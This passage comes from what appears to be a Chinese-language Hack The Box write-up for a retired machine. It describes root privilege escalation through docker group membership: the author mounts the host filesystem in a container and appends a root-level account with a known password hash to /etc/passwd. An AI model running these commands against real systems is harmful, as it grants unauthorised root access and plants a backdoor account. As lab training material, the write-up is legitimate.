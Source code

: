 获取到用户名和密码。

切换用户到 luffy 。

运行 `id` 发现用户属于docker组。

运行 `docker images` 查看已经下载的镜像。

参考 [https://gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/)，利用docker获取root权限。

`docker run -v /:/mnt --rm -it 2ca708c1c9cc chroot /mnt sh`

此时的 shell 是docker容器中的身份运行的，但拥有读写宿主机文件系统的权限。

为了获取目标主机的root权限，向 **/etc/passwd** 文件中写入一条hash：

`echo 'prive:$1$prive$kVguN2dcoTdHqrQmSzy7Y0:0:0::/root/:/bin/bash'>>/etc/passwd`

该hash可以用 openssl 命令生成：

`openssl passwd -1 -salt 'prive'`

退出 docker shell ，切换用户到 `prive`，密码也是 prive，即获得主机的root权限。

**全部过程如下：**

[HackTheBox -- Retired](/categories/hackthebox----retired/), [Linux(Retired)](/categories/linux%28retired%29/)

[Hack The Box](/tags/hack-the-box/)
